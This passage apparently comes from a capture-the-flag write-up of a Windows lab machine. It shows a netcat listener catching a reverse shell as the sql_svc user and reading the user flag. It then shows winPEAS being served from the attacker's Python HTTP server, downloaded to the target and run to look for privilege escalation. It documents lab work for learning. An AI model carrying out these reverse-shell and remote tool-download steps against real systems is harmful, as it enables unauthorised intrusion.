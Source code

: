 And we now have a nice stable foothold on the server:

```console
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 444            
listening on [any] 444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.156.236] 49679
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\sql_svc\Downloads>cd ..
cd ..

C:\Users\sql_svc>cd Desktop         
cd Desktop

C:\Users\sql_svc\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of C:\Users\sql_svc\Desktop

01/20/2020  06:42 AM    <DIR>          .
01/20/2020  06:42 AM    <DIR>          ..
02/25/2020  07:37 AM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  10,715,213,824 bytes free

C:\Users\sql_svc\Desktop>type user.txt
type user.txt
3e7b102e78218e935bf3f4951fec21a3
```

We found the user flag! Now it is time to go for root.

We can use [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) for that. Let's download winPEASx64.exe to the server and execute it.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo python3 -m http.server 82
Serving HTTP on 0.0.0.0 port 82 (http://0.0.0.0:82/) ...
10.129.156.236 - - [13/Apr/2022 12:56:28] "GET /winPEASx64.exe HTTP/1.1" 200
```

```console
C:\Users\sql_svc\Downloads>.\winPEASx64.exe

(...)

----------* PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.17763.1
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 79B

(...)
```
